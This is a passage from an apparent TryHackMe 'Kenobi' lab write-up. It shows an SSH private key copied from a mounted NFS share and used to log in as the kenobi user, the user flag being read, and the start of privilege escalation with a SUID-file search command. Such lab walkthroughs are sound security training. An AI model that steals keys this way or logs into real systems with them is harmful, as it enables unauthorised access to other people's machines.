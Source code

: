 ```
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 29  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Mar 13 01:17 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www
```
The network mount is on our machine. Now we can attempt logging into Kenobi's account! We'll need to get to the `id_rsa` file and login using **SSH**.

```
root@ip-10-10-204-174:~# cp /mnt/kenobiNFS/tmp/id_rsa .
root@ip-10-10-204-174:~# sudo chmod 600 id_rsa
root@ip-10-10-204-174:~# ssh -i id_rsa kenobi@10.10.116.87
The authenticity of host '10.10.116.87 (10.10.116.87)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.116.87' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 
```
We now have access as the Kenobi user! THM now wants us to get the user flag:

```
kenobi@kenobi:~$ ls 
share  user.txt
kenobi@kenobi:~$ cat user.txt 
<user flag here>
```

### Task 4: Privilege Escalation with Path Variable Manipulation
This is our final task! Let's read what THM has to say about SUID bits:
> SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

THM provides us with a command to use to help us search the system for these types of files: 

`find / -perm -u=s -type f 2>/dev/null`
